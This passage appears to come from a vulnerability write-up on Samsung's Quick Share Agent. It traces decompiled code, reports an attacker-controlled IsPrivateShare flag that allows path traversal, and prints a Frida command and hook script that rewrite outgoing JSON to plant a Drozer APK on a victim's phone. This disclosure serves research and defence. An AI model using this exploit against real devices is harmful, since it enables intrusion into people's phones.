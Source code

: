 Looking at class `x1.b` method `x()`, the return value was dependent on the value of the static Boolean value `h`. And the value of `h` is dependent on whatever executes the method `J(boolean)`.

```
public class b {
    public boolean h;
    ...
    public final void J(boolean z5) {
        this.h = z5;
    }
    ...
    public final boolean x() {
        return this.h;
    }
```

Previously, it was mentioned that 2 JSON messages are sent to the receiving phone. The first message is processed in class `f2.i` method `D(c, JSONObject)`. In one part of that method, the value related to the key `IsPrivateShare` is extracted and then is passed as an argument to class `x1.b` method `J(boolean)`.

```
public final class i implements k.c, c.c {
...
    public final boolean D(c c, JSONObject yayjsonobjectyay) {
        ...
        this.g.J(yayjsonobjectyay.optBoolean("IsPrivateShare", false));
```

#### BUG 4 – IsPrivateShare is attacker controlled, resulting in a Path Traversal attack

When receiving a file/folder from an attacker controlled phone, and the attacker controlled phone sends a IsPrivateShare value of True, then the attacker controlled phone can force the target phone to save the incoming file into any directory that Quick Share Agent has write access to.

In our exploit chain, we use this vulnerability to save a Drozer .apk file onto the victim's phone at the location `/storage/emulated/0/GPUWatch_Dump/html/`. In order to do this, first run the following Frida command. Note that you might have to share a file normally first in order to start the Quick Share Agent service:

```
$ frida -U -l yayscriptyay.js com.samsung.android.aware.service
```
Below is the contents of yayscriptyay.js. This script will:

* Intercept all JSON messages that are intended to be sent to the receiving phone
* Change the IsPrivateShare value to True
* Change the Path value to `/../../../../../../GPUWatch_Dump/html/`

```
console.log("script loaded");
Java.perform(function() {

    var yayclass1yay = Java.use('e2.t');

    yayclass1yay.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
```